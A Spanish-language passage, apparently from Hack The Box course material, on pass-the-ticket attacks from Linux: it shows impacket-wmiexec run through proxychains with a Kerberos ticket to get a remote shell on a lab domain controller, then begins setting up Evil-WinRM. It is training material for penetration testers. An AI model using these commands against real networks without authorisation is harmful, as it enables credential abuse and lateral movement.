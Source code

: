 Para usar el boleto Kerberos, necesitamos especificar el nombre de nuestra máquina de destino (no la dirección IP) y usar la opción`-k`. Si recibimos un mensaje para una contraseña, también podemos incluir la opción`-no-pass`.

### **Uso de Impacket con proxychains y autenticación de Kerberos**

Pase el boleto (PTT) de Linux

```
xnoxos@htb[/htb]$ proxychains impacket-wmiexec dc01 -k[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[*] SMBv3.0 dialect used
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:50713  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
inlanefreight\julio

```

**Nota:**Si está utilizando herramientas de Impacket desde una máquina Linux conectada al dominio, tenga en cuenta que algunas implementaciones de Linux Active Directory usan el archivo: prefijo en la variable KRB5CCNAME. Si este es el caso, necesitamos modificar la variable solo para incluir la ruta al archivo CCACHE.

### **Evil-Winrm**

Para usar[Evil-Winrm](https://github.com/Hackplayers/evil-winrm)Con Kerberos, necesitamos instalar el paquete Kerberos utilizado para la autenticación de la red. Para algunos Linux como Debian (Parrot, Kali, etc.), se llama`krb5-user`. Mientras se instala, obtendremos un mensaje para el reino de Kerberos. Use el nombre de dominio:`INLANEFREIGHT.HTB`, y el KDC es el`DC01`.

### **Instalación del paquete de autenticación de Kerberos**

Pase el boleto (PTT) de Linux

```
xnoxos@htb[/htb]$ sudo apt-get install krb5-user -yReading package lists... Done
Building dependency tree... Done
Reading state information... Done

<SNIP>

```
